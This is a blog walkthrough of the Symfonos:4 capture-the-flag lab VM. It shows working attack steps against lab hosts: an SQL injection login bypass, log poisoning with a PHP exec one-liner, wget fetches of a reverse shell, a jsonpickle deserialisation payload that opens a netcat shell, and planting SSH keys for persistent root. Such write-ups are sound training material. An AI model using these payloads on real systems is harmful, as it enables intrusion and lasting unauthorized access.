

# symfonos:4 Walkthrough

So, I'm going to try my hand at this "security blog" thing. We'll start off with a CTF that I (admittedly) took wayyyyy too long with, because I went down the wrong track entirely. That CTF is [Symfonos: 4](https://www.vulnhub.com/entry/symfonos-4,347/) by the talented [@Zayotic](https://twitter.com/Zayotic).

For anyone who managed to find this, avoid the temptation of [CVE-2019-0211](https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html). [@cfreal](https://cfreal.github.io/) is insanely clever to have found it, the Apache version the VM is running is vulnerable, and it's just a pain. Don't do it.

For the purposes of this walkthrough, I have three machines running:

- My Mac laptop (at `192.168.56.1`), from which I'll be accessing the majority of webpages
- A Kali Linux VM (at `192.168.56.102`), from which I'll run the majority of commands
- The target VM (at `192.168.56.108`)

## 1. Starting Off

We launch Symfonos in our favorite virtualization environment and we get to work. As always, we begin with a basic `nmap` to see what's going on with the virtual machine. The IP address is (conveniently) displayed on the login screen of the VM's TTY. How nice!

    ┌─[kazwolfe@Starblade]                                   
    └─> $ nmap 192.168.56.108 -A 
        Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-24 11:49 PDT
    Nmap scan report for 192.168.56.108
    Host is up (0.0014s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
    |   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
    |_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.87 seconds
    

So, we have a decently modern Apache and SSH running. SSH is a wasted effort, we can probably skip it for now.

If we go to the IP address in question, we get a nice picture of Poseidon, the god of the seas in Greek mythology. Symfonos has a thing for Greek gods, and the theme continues.

Just to make sure, we pop open the source code for the page and find... nothing. Time to do things the automated way!

### Exploring The Webserver

We have a webserver. We (probably) have Kali. Kali has `dirb` or `dirbuster`. Let's start scanning.

> **Caveat Emptor!**
> 
> This Apache install has the manual readily available at `/manual`! Make sure that the wordlist you are using does not have that, else you'll be wasting many many hours on the scan.
> 
> I've modified my wordlist to exclude `manual`.

> 

Dirbuster returns a bunch of interesting files, but there are a few things of note. We get a couple PHP files, and a `gods/` folder with a bunch of logfiles.

> 

Now, we can open a web browser to `sea.php` or `atlantis.php` and see what we get. We find (quickly) that `atlantis.php` is a login form, and `sea.php` redirects to that. Looks like we need to defeat this login page.

## 2. Fighting The Webserver

The login form is pretty simple, just asking for a username and a password. Why not try random things like SQL injections?

We quickly notice that we can bypass the login form very quickly using `x' or 1=1; --` as a username. Our password field (annoyingly) needs to be filled out but it can be anything. 

We're prompted to select a god - one of Zeus, Poseidon, or Hades. Curiously, these are the same files as dirbuster found above in the `gods` directory. We choose one at random and we get redirected to an interesting URL:

    http://192.168.56.108/sea.php?file=zeus
    
This screams that we can do a local file inclusion, so let's try some. Before we start though, we remember that the `gods` folder contains files with `.log` in their file name. Can we use this to read system logs?

> 

Indeed we can! We'll ignore the odd permissions on `/var/log/auth.log` and continue. We can poke around a bit and find other logs - like `dpkg.log`. Nothing of note, but it's at least something. It's also worth trying an RFI, but that doesn't work either. We're kinda stumped. We take a wild shot in the dark and assume that `sea.php` is including these files with an [`include()`](https://www.php.net/manual/en/function.include.php), meaning we have a potential for arbitrary code execution.

We have (limited) control over a single specific log: `auth.log`. Any failed login attempts will generate a new entry into the logfile. A quick SSH attempt as the user [`chicken`](https://isotropic.org/papers/chicken.pdf) confirms this:

    Aug 23 19:09:01 symfonos4 CRON[2317]: pam_unix(cron:session): session opened for user root by (uid=0)
    Aug 23 19:09:01 symfonos4 CRON[2317]: pam_unix(cron:session): session closed for user root
    Aug 23 19:14:15 symfonos4 sshd[2392]: Invalid user chicken from 192.168.56.1 port 49350
    
This gives us a pretty simple (but extremely clever) attack vector: we try logging on with a user that's actually PHP code to give us some command capability. Unfortunately for us, the system has a very limited username size. We need to be a bit clever and create a nice short PHP one-liner. Some minimization nets us the following command:

    ssh 192.168.56.108 -l '<?php die(exec($_GET["c"]));?>'
    
> **BE CAREFUL:** If your PHP code is too long, you may end up causing your `auth.log` file to be unreadable. This is not a fun place to be.
    
Run this command on your machine, and we hopefully can start abusing our new `c` parameter (remembering to read from `../../../../../../var/log/auth` to trigger our microshell).

> 

She lives! We have a way of running commands on the target system now, and we can proceed to a full shell. Any command can be run off of a template now:

    http://192.168.56.108/sea.php?file=../../../../../../var/log/auth&c=mycommand

Let's grab [a simple reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and customize it a bit. In my case, I'm going to want to at least change my IP address. I'll save this to `/tmp/sym4/rsh.php`.

Next, we need to get this file on to the target machine. In order to do this, we'll need to leverage one of my favorite tools: Python's Simple HTTP Server. 

> **The Simple HTTP Server**
> 
> For those not in the know, you can spawn a tiny webserver on any system with Python 3 installed by running `python3 -m http.server`. Your current directory will be served to the world at port 8000, and you can freely grab files by making a request.
> 
> Insanely handy, and readily available! What's better than that?

I'm going to host out my `/tmp/sym4` workdir. I background the task just so I can keep my shell free and save some time.

    root@kali ~ # cd /tmp/sym4                                                                                              
    root@kali /tmp/sym4 # python3 -m http.server & 
    
Next up, I need to get that file to the victim machine. We can use our template to craft a command (and abuse Firefox's awesome auto-encode feature):

    http://192.168.56.108/sea.php?file=../../../../../../var/log/auth&c=wget http://192.168.56.102:8000/rsh.php -O /var/www/html/gods/rsh.log
    
If this worked, we can just go to `http://192.168.56.108/sea.php?file=rsh`. We fire up our netcat listener (`nc -lvp 1234`) aaaaaand... get nothing. Boo.

But perhaps permissions are wrong? What if we write to a known-writable location (like `/tmp`?) Let's try a different command:

    http://192.168.56.108/sea.php?file=../../../../../../var/log/auth&c=wget http://192.168.56.102:8000/rsh.php -O /tmp/rsh.log
    
We navigate to `http://192.158.56.108/sea.php?file=../../../../../../tmp/rsh` and pop back over to our netcat listener.

    root@kali /tmp/asdfa # nc -lvp 1234
    listening on [any] 1234 ...
    192.168.56.108: inverse host lookup failed: Unknown host
    connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 39820
    Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686 GNU/Linux
     19:43:32 up  5:10,  1 user,  load average: 0.00, 0.02, 0.20
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ 

Huzzah! A shell! But `sh` is bad and makes me sad. Let's get a real TTY and use bash. We can rely on Python to get a PTY:

```
$ python -c 'import pty; pty.spawn("/bin/bash")' 
www-data@symfonos4:/$
```

And we're in business.

## 3. Escalate, baby!

You have two choices here. You can do recon the right way (covered below), or you can do something insanely dumb and try CVE-2019-0211 like I did. If you go down the CVE path, you'll be modifying ELF offsets, tearing your hair out over why a PHP Use-After-Free isn't working, and many other things. I would not recommend going down this rabbit hole.

If you do, though, (maybe you just want to learn?), take a look at [the official writeup](https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html), [some PoC code](https://github.com/cfreal/exploits/blob/master/CVE-2019-0211-apache/cfreal-carpediem.php), and [this technical analysis](http://www.programmersought.com/article/61441072610/). All in all, it's an amazing rabbit hole to go down and is a pretty beautiful exploit. I learned a lot trying to get it to work, but... it won't really help you solve this CTF. If you find a way to get it to work, hit me up [on Keybase](https://keybase.io/kazwolfe).

So, sidetrack aside, we start with our recon. As `netstat` isn't installed on this machine, we can use `ss` instead:

    www-data@symfonos4:/$ ss -tulpn
    Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   
    udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*      
    tcp     LISTEN   0        80             127.0.0.1:3306          0.0.0.0:*      
    tcp     LISTEN   0        128            127.0.0.1:8080          0.0.0.0:*      
    tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*      
    tcp     LISTEN   0        128                    *:80                  *:*      
    tcp     LISTEN   0        128                 [::]:22               [::]:*  
    
A webserver on 8080! Interesting. This didn't show up on our Nmap scan, as it's binding to localhost. Therefore, we can't really connect to it (much like MySQL as well) nor can we modify the bind configs as that's controlled in a file owned by `root`.

Except... we can. For this CTF, I opted to use [`shootback`](https://github.com/aploium/shootback), and open source and (pretty) friendly reverse TCP tunnel. Tools like this would bypass any firewalls on the host system (in this case, there weren't any, but we aren't always as lucky). Other tools like [`socat`](https://linux.die.net/man/1/socat) could have been used as well (e.g. `socat TCP-LISTEN:8001,fork,reuseaddr tcp:127.0.0.1:8080 &`), which would have probably simplified the below steps. Use whichever you like more.

We'll clone the repo to our Kali machine, build the slaver, and get that ready to be copied over:

    root@kali /tmp/sym4 # git clone https://github.com/aploium/shootback.git
    Cloning into 'shootback'...
    < ... >
    Resolving deltas: 100% (161/161), done.
    root@kali /tmp/sym4 # cd shootback
    root@kali /tmp/sym4/shootback # python3 ./build_singlefile_slaver.py 
    generate complete!
    output file: /tmp/sym4/shootback/slaver_singlefile.py
    root@kali /tmp/sym4/shootback # mv slaver_singlefile.py ../slaver.py
    
Our HTTP server is still running, so let's copy that over. On our reverse shell:

    www-data@symfonos4:/$ cd /tmp
    www-data@symfonos4:/tmp$ wget http://192.168.56.102:8000/slaver.py
    
You'll notice we're once again using `/tmp`, because we can actually write to it as `www-data`. Once all the files are in place, let's get our reverse TCP connection running. As always, we background our tasks.    

    # On Kali machine (host)
    python3 master.py -m 0.0.0.0:1235 -c 0.0.0.0:8001 &
    
    # On the VM reverse shell (background it!)
    python slaver.py -m 192.168.56.102:1235 -t 127.0.0.1:8080 &
    
We have our TCP session open, and we can now access the web app at `192.168.56.102:8001`. If we go to that, we get redirected to a page `/whoami`:

> 

Let's go back to the Main page using the handy link. We do in fact have a cookie for `username`:

> 

The cookie is base64 encoded, so let's pull out [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=ZXlKd2VTOXZZbXBsWTNRaU9pQWlZWEJ3TGxWelpYSWlMQ0FpZFhObGNtNWhiV1VpT2lBaVVHOXpaV2xrYjI0aWZRPT0) and decode it. We end up getting:

    {"py/object": "app.User", "username": "Poseidon"}

If you're a Python developer, you probably recognize this as a `jsonpickle` string. It's good to confirm that, but that takes effort. I'll spare you the searching the filesystem and just say we have some code at `/opt/code` on the victim machine.

After looking at the source code, we can confirm that we are, in fact, using [`jsonpickle`](https://jsonpickle.github.io/). After reading the documentation and noticing the extremely obvious warning that it can be used to run arbitrary code, we have another way in. A bit of online research shows that [`jsonpickle` vulns are very well known](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/). I personally opted to use one present in [Issue #178](https://github.com/jsonpickle/jsonpickle/issues/178) of the official repo. Let's modify this to spawn a reverse shell:

    {"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["/usr/bin/nc -e /bin/sh 192.168.56.102 1236"], 0, 0, 0]}
    
We'll base64-encode this string (CyberChef again!) and then put that in our username cookie. On our Kali machine, we'll spawn another netcat listener on 1236 (`nc -lvp 1236`). We reload the page and get our beautiful `Waiting for 192.168.56.106...` tooltip. We pop back to our reverse shell and see a connection. Let's try `whoami`!

    root@kali ~ # nc -lvp 1236                                                                                      
    listening on [any] 1236 ...
    192.168.56.108: inverse host lookup failed: Unknown host
    connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 40844
    whoami
    root
    
We did it. Let's grab the flag.

    cd /root
    ls
    cat proof.txt
    


## 4. Make It Permanent

Let's make sure we keep our root access by adding our SSH keys to the root user.

    # On Kali
    cp ~/.ssh/authorized_keys /tmp/sym4/keys
    
    # On VM in reverse shell
    mkdir -p /root/.ssh/
    wget http://192.168.56.102:8000/keys -O /root/.ssh/authorized_keys
    
Once we're done, let's go ahead and SSH in and get a true root shell.


And, you've successfully finished Symfonos 4. Make a writeup and start a security blog or put it on GitHub.

## Final Thoughts

This was a really fun CTF overall, and I enjoyed it immensely. There's probably a lot of optimization you can do to my steps, but I'm neither good at redteaming nor making things elegant. It works, and that's good enough.

I did, however, run into a very annoying issue that forced me to restart the CTF. If bad PHP code is injected in to `auth.log` via SSH, you can potentially lose that entrypoint entirely. This is not a fun feeling, but I'm sure there's some realistic way around this. I just never found it.

If you have any suggestions for how I could do this CTF better, have any CTFs you want me to waste time on, or just want to chat to me about security in general, feel free to ping me [on Keybase](https://keybase.io/kazwolfe), send a message to me [on Discord](https://discord.gg/y56NMeW), or whatever you find. Consider it a challenge. 

### Errata

After the initial publishing of this article to GitHub, a number of errata surfaced that I'd like to resolve:

* The `nmap` command in Part 1 contains a `-p-` flag while the scan only shows the top 1000 ports being scanned. This was a result of me attempting to quickly redo the CTF - I typed the initial command I used (with `-p-`), but used the output from a standard `-A` run of `nmap`.
* I incorrectly identified the reason port 8080 was not open was due to a firewall. Instead, the port in question was bound to 127.0.0.1, meaning I could not connect to it from any other IP address. This was a procedural problem on my part, as I never checked if I could use tools to bind other ports. Thanks for pointing this out, @barghest89! 
* A typographical error in the cutout for SimpleHTTPServer included a stray space between `python` and `3`, which may have confused some people.
* An easter egg-ish link I was planning to include was omitted from initial publication.
* Shell prompts for my systems were inconsistent. This was caused by switching between `bash` and `xonsh` on my Kali system for various parts of the CTF. All prompts have been fixed to the `xonsh` format.